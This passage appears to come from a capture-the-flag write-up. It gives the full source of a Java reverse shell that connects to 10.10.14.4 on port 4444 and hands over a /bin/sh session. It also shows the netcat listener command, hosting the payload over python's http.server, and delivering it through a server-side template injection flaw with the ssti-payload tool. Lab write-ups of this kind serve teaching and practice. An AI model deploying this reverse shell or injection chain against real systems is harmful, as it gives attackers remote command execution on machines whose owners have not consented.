 ```
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class C {

  public static void main(String[] args) throws Exception {
    String host="10.10.14.4";
    int port=4444;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

(Of course, I tested this using a local connection, specifying 127.0.0.1 port 4444 initially)

I put this into a folder hosted using python's http.server on port 8080 then set up my netcat listener:

```
nc -lvnp 4444
```

Then I utilized the template injection vulnerability to issue the following commands to the target machine, in the form of payloads created by [ssti-payload](https://github.com/VikasVarshney/ssti-payload).

> issue command to ssti-payload, then strip off the leading "${" and trailing "}", then use the template injection vuln by searching commands of the form "*{[PAYLOAD]}", where [PAYLOAD] is the stripped output of ssti-payload as described above

